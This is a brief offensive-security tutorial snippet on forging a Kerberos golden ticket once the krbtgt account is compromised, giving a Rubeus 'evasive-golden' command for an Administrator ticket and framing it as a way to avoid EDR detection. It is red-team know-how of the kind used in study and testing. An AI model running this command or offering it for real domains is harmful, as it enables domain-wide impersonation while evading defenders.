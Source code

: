 # Golden ticket

When we compromise the account `krbtgt`, we can issue tickets for any service or user. We can in particular create a golden ticket.

First, we will encode the golden ticket in a way that will not trigger EDR. We specify only the beginning of the SID without the last identifier:

```powershell
> Rubeus.exe evasive-golden /aes256:<krbtgt's key> /ldap /sid: /user:Administrator /printcmd
```

